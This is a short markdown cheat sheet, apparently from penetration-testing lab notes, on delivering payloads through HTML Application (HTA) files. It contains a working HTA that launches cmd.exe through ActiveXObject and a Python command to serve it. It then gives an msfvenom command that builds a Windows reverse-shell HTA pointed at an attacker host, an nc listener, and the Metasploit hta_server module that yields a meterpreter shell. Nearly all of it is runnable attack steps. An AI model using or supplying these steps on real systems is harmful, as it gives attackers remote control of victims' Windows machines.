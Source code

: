 # HTML Application (HTA)

Use an `ActiveXObject` to execute `cmd.exe` (save as payload.hta):

    <html>
    <body>
    <script>
            var c= 'cmd.exe'
            new ActiveXObject('WScript.Shell').Run(c);
    </script>
    </body>
    </html>

Serve the payload 

    python3 -m http.server 8000

Visit the page from the target machine http://IP-ATTACK-MACHINE:8000/payload.hta and run it

## Reverse shell

Create a reverse shell with msfvenom:

    msfvenom -p windows/x64/shell_reverse_tcp LHOST=IP-ATTACK-MACHINE LPORT=443 -f hta-psh -o thm.hta

Set up a listener on the attack machine: 

    nc -nlvp 443

The reverse shell is launched when the link is visited from the target machine.

You can also generate and serve HTA with Metasploit

    use exploit/windows/misc/hta_server

and set LHOST, LPORT, SRVHOST, and payload `windows/meterpreter/reverse_tcp`.

When the link is visited in the target we get a meterpreter shell.
